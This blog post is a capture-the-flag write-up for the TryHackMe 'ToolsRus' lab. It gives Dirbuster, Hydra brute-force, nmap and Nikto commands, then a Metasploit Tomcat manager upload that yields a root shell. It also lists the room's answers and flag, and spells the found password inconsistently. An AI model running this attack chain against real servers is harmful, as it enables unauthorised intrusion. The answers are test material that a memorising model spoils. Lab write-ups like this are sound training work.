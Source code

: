 ```yaml
---
layout: post
title: Write-Up [THM] ToolsRus
categories: [Write-Ups, TryHackMe]
tags: [TryHackMe, Web, dirbuster, nikto, metasploit, hydra]
featured-image:  thm/toolsRus/theme.png
featured-image-alt: ToolsRus
---
```


It's a write-up about the room : [Try Hack Me - Room : ToolsRus](https://tryhackme.com/room/toolsRus)

# [Task 1] ToysRus

![Task 1](/assets/img/thm/toolsRus/task-1.png)


First, we deploy the machine.

* What directory can you find, that begins with a "g"?

We use `Dirbuster` with : 

```
Target Url : http://ip_machine:80/
File with lists of dirs/files : directory-list-2.3-medium.txt
Dir to start with : /
File extension : php
```

The directory that begins with a "g" is **guidelines**.

* Whose name can you find from this directory?

Go to : `http://ip_machine/guidelines` and find the message : 

```
Hey bob, did you update that TomCat server? 
```   

Therefore the name is **bob**.

* What directory has basic authentication?

With dirbuster, we find the directory **protected** which needs basic authentication.

* What is bob's password to the protected part of the website?

We use `hydra` in a terminal : `hydra -l bob -P rockyou.txt -f ip_machine http-get /protected/`  
We find **bubbles** as password.

* What other port that serves a webs service is open on the machine?

We use nmap to see all the ports : ` nmap -sV ip_machine`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The other port that serves a webs service which is open is the port **1234**.

* Going to the service running on that port, what is the name and version of the software?

Go on `http://ip_machine:1234/`.  
On that page we find the name and the version of the software : **Apache Tomcat/7.0.88**.

* Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above. How many documentation files did Nikto identify?

Go on `http://ip_machine:1234/manager/html` with the credentials :

```
login : bob
password : bubble
```

We could also use : `nikto -h http://ip_machine:1234/manager/html -id bob:bublles`.
We find **5** documentation files.


* What is the server version (run the scan against port 80)?

With nmap, we find the server version **Apache/2.4.18** for the port 80.

* What version of Apache-Coyote is this service using? 

With nmap also, we find the service version of Apache-Coyote which is **1.1**.

* Use Metasploit to exploit the service and get a shell on the system. What user did you get a shell as?

To launch metasploit on the console : `msfconsole`.  
After we use this different command : 

```
search tomcat  
use multi/http/tomcat_mgr_upload
show options
set httpPassword bubbles
set httpUsername bob
set RHOSTS ip_machine
SET RPORT 1234
run
```

Then , we can use the shell by typing `shell`.
To see what user we are, we use `whoami`.   
The output is **root**. 

* What text is in the file /root/flag.txt ?

We use cat to see the flag : `cat /root/flag.txt`.  
The flag is **ff1fc4a81affcc7688cf89ae7dc6e0e1**.